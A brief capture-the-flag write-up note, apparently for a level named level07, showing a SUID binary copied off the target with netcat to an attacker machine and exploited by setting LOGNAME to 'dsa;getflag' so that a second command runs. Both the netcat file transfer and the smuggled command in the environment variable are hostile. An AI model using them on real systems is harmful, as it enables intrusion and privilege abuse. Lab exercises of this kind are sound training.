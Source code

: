 *SUID* binary
`-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07`

kali 
`nc -lvnp 9090 > level07`

target
`cat level07 | nc 10.0.2.15 9090`

Binary 
![[Pasted image 20241125112703.png]]

Get **LOGNAME** environment variable and echo it.

Exploit:
```bash
export LOGNAME='dsa;getflag'
./level07
```


